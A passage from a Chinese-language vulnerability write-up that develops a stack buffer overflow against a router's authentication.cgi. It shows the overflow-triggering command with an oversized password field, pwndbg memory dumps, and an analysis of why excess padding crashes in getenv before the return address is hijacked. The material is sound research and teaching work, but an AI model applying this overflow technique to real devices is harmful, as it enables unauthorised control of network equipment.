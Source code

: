运行命令

```sh
sudo ./cgi_run.sh `python -c "print 'id=1234&password='+'A'*2000"
```

使用gdb动态调试发现出错了，‘A’没有成功覆盖返回地址造成崩溃，程序在0x767e9a00处终止，增加填充字符串的长度也没有成功覆盖返回地址。

动态调试在`read`函数处下断点，然后逐步运行发现在0x40B514处出现问题，进入函数sub_40A424后直接跳出处理流程。

```sh
.text:0040B510 move    $a0, $s3
.text:0040B514 jal     sub_40A424
.text:0040B518 sb      $zero, 0($v0)
```

我们跟进去看看发现运行到0x7676c8a0处时由于$a1被覆盖成'AAAA'，而在内存中找不到0x41414141这个地址，所以崩溃。该位置在libc.so.0库的`memcmp`函数中，调用流程是sub_40A424函数调用`getenv("HTTP_COOKIE")`，`getenv`函数调用`memcmp`函数。

```sh
0x7676c8a0    lbu    $v0, ($a1)
*A1   0x41414141 ('AAAA')
```

我们填充正常长度的字符，查看正常状态下

```sh
*A1   0x76fff443 ◂— 'REMOTE_ADDR=192.168.31.61'
```

说明我们设置的填充字符太长，覆盖了栈中的另外一个关键指针值（应该是保存所有传进来的环境变量参数的位置），导致发生崩溃。根据栈的结构，我们从`authenticationcgi_main`的栈底offset_buffer+0x430=0x76ffee30+0x430开始找，找到在offset_buffer+0x430+0xd4处找到栈中保存环境变量地址的位置。因此我们的填充字符不能覆盖到栈中保存环境变量的地址的位置。这里存在的是一个栈空间结构的问题，`authenticationcgi_main`中的`read`函数发生缓冲区溢出，当溢出的长度过长，依次覆盖`authenticationcgi_main`栈空间、`main`函数栈空间和`__uClibc_main`函数盏空间，一直覆盖到保存环境变量地址的全局变量栈空间，造成后面`getenv`函数的出错。

```sh
pwndbg> x/16wx 0x76ffee30+0x430+0xd4
0x76fff334:	0x76fff424	0x00000000	0x76fff443	0x76fff45d
0x76fff344:	0x76fff47d	0x76fff491	0x76fff4c1	0x76fff4d5
0x76fff354:	0x76fff521	0x76fff534	0x76fff540	0x76fff550
0x76fff364:	0x76fff964	0x76fffeec	0x76fffefd	0x76ffff49
pwndbg> x/s 0x76fff424
0x76fff424:	"/htdocs/web/authentication.cgi"
pwndbg> x/s 0x76fff443
0x76fff443:	"REMOTE_ADDR=192.168.31.61"
pwndbg> x/s 0x76fff45d
0x76fff45d:	"REQUEST_URI=/authentication.cgi"
pwndbg> x/s 0x76fff550
0x76fff550:	"SUDO_COMMAND=./cgi_run.sh id=1234&password=", 'A' <repeats 157 times>...
pwndbg> x/s 0x76fff964
0x76fff964:	"LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc"...
pwndbg>
```

我们调整填充字符的的长度，成功劫持返回地址。
